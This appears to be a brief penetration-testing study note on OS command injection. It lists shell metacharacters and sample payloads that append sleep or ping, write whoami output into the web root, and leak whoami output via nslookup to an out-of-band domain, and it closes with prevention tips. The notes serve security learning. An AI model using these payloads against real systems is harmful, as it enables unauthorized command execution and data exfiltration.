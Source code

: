 # command_injection

## fuzz the application

```
shell metacharacters: &, &&, |, ||, ;, \n; `, $()
```

### for blind command injection, you need to get creative

* trigger `a time delay` using `ping` or `sleep` command
    
    ```
    127.0.0.1 && sleep 10 & # only for unix
    127.0.0.1 && ping -c 10 127.0.0.1
    ```

* output the response of the command in the web root and retrieve the file directly using browser

    ```
    127.0.0.1 & whoami > /var/www/static/whoami.txr &
    ```
* open an out-of-band channel back to a server you control
    
    ```
    127.0.0.1 & nslookup kgjdfjdfhs.web.staticker.com &
    127.0.0.1 & `whoami`.kgjdfjdfhs.web.staticker.com &
    ```

### how to prevent xcommand injection

* never call out to OS commands from application-layer code. Instead, implement the required functionality using safer platformAPIs.
* strong input validation
    * validate against a whitlist of permitted values
    * validate that the input is as expected or valid input

## links

`Web Application Hacker's Handbook`
chapter 10 - 362 - 368
chapter 21 - 832 - 833
